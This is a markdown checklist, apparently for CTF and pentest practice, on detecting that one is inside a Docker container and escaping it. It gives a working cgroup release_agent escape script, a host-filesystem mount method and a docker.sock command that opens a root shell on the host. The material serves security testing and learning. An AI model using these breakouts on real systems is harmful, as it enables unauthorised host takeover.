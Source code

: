 # Compromised Container Checklist

A list of things you can try if you're doing a CTF/Pentest/Bug bounty and find yourself in a container.

## Confirming you're in a container.

### Docker

- `ls -al /.dockerenv` - If this file exists, it's a strong indication you're in a container
- `ps -ef` - Not a definitive tell, but if there are no hardware management processes, it's a fair bet you're in a container
- `ip addr` - Again not definitive, but `172.17.0.0/16` is the default docker network, so if all you have is network stats, this is useful
- `ping host.docker.internal` - should respond if you're in a docker container

## Breaking out

### High level areas

- File mounts. What information can you see from the host
- Granted Capabilities. Do you have extra rights
- Kernel version. Is it a really old kernel which has known exploits.

### Tooling

The easy way to assess this is tooling. All of these come as static golang binaries, so if you can wget/curl files from github you can install them

- [amicontained](https://github.com/genuinetools/amicontained) will show you information about the container runtime and rights you have.
- [conmachi](https://github.com/nccgroup/ConMachi) similar information to amicontained not currently (Oct 2020) maintained.
- [botb](https://github.com/brompwnie/botb) Good tool to both assess your position and try and breakout.

### Manual breakout - privileged containers

If you find out from amicontained or similar that you are in a privileged container, some ways to breakout

From [this tweet](https://twitter.com/_fel1x/status/1151487051986087936) this is a shell script which runs commands on the underlying host from a privileged container.

```bash
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```

save it as `escape.sh` and you can use it like

```bash
./escape.sh ps -ef
```

Another approach for privileged containers is just to mount the underlying root filesystem. Run the `mount` command to get a list of filesystems. Usually files like `/etc/resolv.conf` are mounted off the underlying node disk, so just find that disk and mount the entire thing under something like `/host` and it'll provide edit access to the node filesystem

### Manual breakout - Access to the Docker socket

If the tooling suggests that the Docker socket is available at `/var/run/docker.sock` then you can just get the docker CLI tool and run any docker command. To breakout use :-

* `docker run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host` - From [this](https://zwischenzugs.com/2015/06/24/the-most-pointless-docker-command-ever/) post. This will drop you into a root shell on the host.